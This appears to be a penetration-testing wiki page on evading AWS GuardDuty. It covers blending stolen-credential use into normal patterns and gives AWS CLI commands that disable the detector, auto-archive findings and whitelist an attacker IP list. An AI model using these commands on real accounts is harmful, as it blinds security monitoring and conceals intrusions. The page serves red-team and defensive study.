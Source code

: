 ## GuardDuty Bypass

### General Guidance

Try to find out as much as possible about the behaviour of the credentials you are going to use:

* Times it's used
* Locations
* User Agents / Services (It could be used from awscli, webconsole, lambda...)
* Permissions regularly used

With this information, recreate as much as possible the same scenario to use the access:

* If it's a **user or a role accessed by a user**, try to use it in the same hours, from the same geolocation (even the same ISP and IP if possible)
* If it's a **role used by a service**, create the same service in the same region and use it from there in the same time ranges
* Always try to use the **same permissions** this principal has used
* If you need to **use other permissions or abuse a permission** (for example, download 1.000.000 cloudtrail log files) do it **slowly** and with the **minimum amount of interactions** with AWS (awscli sometime call several read APIs before the write one)

### Breaking GuardDuty

#### `guardduty:UpdateDetector`

With this permission you could disable GuardDuty to avoid triggering alerts.

{% code overflow="wrap" %}
```bash
aws guardduty update-detector --detector-id <detector-id> --no-enable 
aws guardduty update-detector --detector-id <detector-id> --data-sources S3Logs={Enable=false}
```
{% endcode %}

#### `guardduty:CreateFilter`

Attackers with this permission have the capability to **employ filters for the automatic** archiving of findings:

{% code overflow="wrap" %}
```bash
aws guardduty create-filter  --detector-id <detector-id> --name <filter-name> --finding-criteria file:///tmp/criteria.json --action ARCHIVE
```
{% endcode %}

#### `iam:PutRolePolicy`, (`guardduty:CreateIPSet`|`guardduty:UpdateIPSet`)

Attackers with the previous privileges could modify GuardDuty's [**Trusted IP list**](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_upload-lists.html) by adding their IP address to it and avoid generating alerts.

{% code overflow="wrap" %}
```bash
aws guardduty update-ip-set --detector-id <detector-id> --activate --ip-set-id <ip-set-id> --location https://some-bucket.s3-eu-west-1.amazonaws.com/attacker.csv
```
{% endcode %}
